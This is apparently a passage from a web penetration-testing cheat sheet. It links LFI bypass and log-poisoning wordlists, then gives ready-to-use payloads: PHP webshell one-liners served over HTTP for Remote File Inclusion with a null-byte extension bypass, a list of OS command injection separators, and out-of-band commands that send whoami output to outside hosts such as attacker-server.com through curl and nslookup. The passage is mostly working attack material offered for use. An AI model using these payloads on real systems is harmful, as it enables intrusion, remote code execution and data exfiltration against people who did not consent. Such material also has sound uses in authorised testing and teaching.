 -> Wordlist LFI - Windows  
- https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt 
	
-> bypass_lfi.txt  
- https://github.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/blob/main/wordlists/lfi_bypass.txt  
	
-> poisoning.txt  
- https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/wordlists/posoning.txt  

## Remote File Inclusion (RFI)
### RFI to Webshell with null byte for image extension bypass
```bash
echo "<?php echo shell_exec($_GET['cmd']); ?>" > evil.txt
python -m http.server 80
```
```
http://site.com/menu.php?file=http://<IP>/evil.php%00.png
```

### RFI to Webshell with txt
```bash
echo '<?php echo shell_exec($_GET["cmd"]); ?>' > evil.txt
python -m http.server 80
```
```
http://site.com/menu.php?file=http://<IP>/evil.txt&cmd=ipconfig
```

## OS Command Injection
-> Special Characters
```
& <command>
&& <command>
; <command>
<command> %0A <command>
| <command>
|| <command>
`<command>`
$(<command>)
```

-> Out Of Band - OOB Exploitation
```bash
curl http://$(whoami).site.com/
curl http://`whoami`.site.com/
nslookup `whoami`.attacker-server.com &
curl http://192.168.0.20/$(whoami)
```
